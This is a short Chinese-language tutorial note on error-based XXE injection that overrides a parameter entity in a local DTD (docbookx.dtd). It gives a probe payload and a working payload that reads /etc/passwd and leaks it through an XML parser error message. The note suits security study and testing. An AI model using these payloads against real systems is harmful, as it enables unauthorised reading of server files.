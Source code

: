 # 重写本地 dtd 导致报错回显

- 此利用不受带外交互阻止的限制
- 此利用不受无法远程加载外部 DTD 的限制。

条件：

- 能加载本地 dtd。
- 有报错回显。

利用流程：

- 在本地找一个 dtd
- 重写本地 dtd 中的一个参数实体

### 实验

查找是否存在文件：

```
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
```

存在的话正常回显数据：

![image-20250417172032135](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417172032135.png)

不存在会报错：

![image-20250417172057234](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417172057234.png)

payload：

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image-20250417171714688](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417171714688.png)